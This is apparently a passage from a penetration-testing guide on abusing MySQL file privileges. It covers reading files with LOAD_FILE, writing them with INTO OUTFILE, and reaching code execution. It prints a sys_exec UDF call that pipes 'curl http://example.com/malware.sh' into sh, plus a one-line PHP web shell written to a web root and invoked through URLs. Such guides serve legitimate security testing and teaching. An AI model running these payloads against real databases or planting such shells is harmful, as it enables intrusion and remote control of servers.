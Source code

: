 #### Read Local Files

*   By default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods. For `LOAD_FILE()` to work, the MySQL server must have file privileges and the file path must be accessible by the MySQL user. The `secure_file_priv` variable can restrict the directories from which files can be read.

    ```sql
    SELECT LOAD_FILE('/path/to/file.txt');
    ```

#### Write Local Files

*   MySQL can write files using the `SELECT INTO OUTFILE` statement, which writes the result of a query into a file. The file created by `SELECT INTO OUTFILE` cannot already exist, and the MySQL user must have file privileges. The `secure_file_priv` variable can also restrict the directories where files can be written.

    ```sql
    SELECT 'Some data' INTO OUTFILE '/path/to/file.txt';
    ```

#### Remote Code Execution

*   Remote code execution can be achieved via UDFs or exploiting `SELECT ... INTO OUTFILE` to write malicious scripts to a web directory.

    ```sql
    CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
    SELECT sys_exec('bash -c "curl http://example.com/malware.sh | sh"');
    ```
* Remote command execution can also be performed by writing into a location in the file system that can execute commands. For example, suppose MySQL operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using SELECT INTO OUTFILE in the webserver directory. Then we can browse to the location where the file is and execute our commands.
*   **In target database:**

    ```sql
    SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '/web/root/folder/webshell.php';
    ```
*   **In attack browser (single command):**

    ```sql
    http://<target_ip>/sitename/webshell.php?cmd=<attack_cmd_here>
    ```
*   **In attack browser (mutliple commands):**

    ```sql
    http://<target_ip>/sitename/webshell.php?cmd=<attack_cmd_here>%26<attack_cmd_here>
    ```

## Penetration Testing Techniques
